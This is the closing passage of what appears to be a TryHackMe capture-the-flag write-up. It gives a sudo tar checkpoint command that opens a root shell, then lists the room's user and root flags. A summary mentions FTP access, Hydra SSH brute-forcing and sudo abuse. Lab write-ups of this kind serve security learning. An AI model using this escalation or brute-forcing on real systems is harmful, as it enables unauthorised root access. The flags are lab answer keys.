 sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

This command instructs tar to run /bin/sh as root upon hitting a checkpoint.



## 8. Accessing the Root Shell

### After running the above command, I was granted a root shell (# prompt). From here, I could access the /root/root.txt file and retrieve the final flag.

cat /root/root.txt

Flag:

## THM{G0T_R00T}



## Conclusion

### In this room, I successfully exploited an FTP server for initial access, brute-forced SSH login credentials, and escalated privileges using sudo to run the tar command as root. The room demonstrated the power of misconfigured sudo permissions and how to use common tools like Hydra and tar for privilege escalation.

Total Flags:

  User Flag: THM{CR1M3_SyNd1C4T3}

  Root Flag: THM{G0T_R00T}

## Tools Used:

  Nmap: For port scanning.

  Hydra: For brute-forcing SSH credentials.

  FTP: To enumerate files and retrieve password candidates.

  sudo: To check for privilege escalation opportunities.

  tar: Used for privilege escalation to root.


  ## proof of completing :

  ![Image](https://github.com/user-attachments/assets/e54497e8-29fd-4c34-bd2a-1a0afaae49d7)


  ![Image](https://github.com/user-attachments/assets/e02ea7ae-9881-4c8b-a3ab-ea2ecd40a441)

  
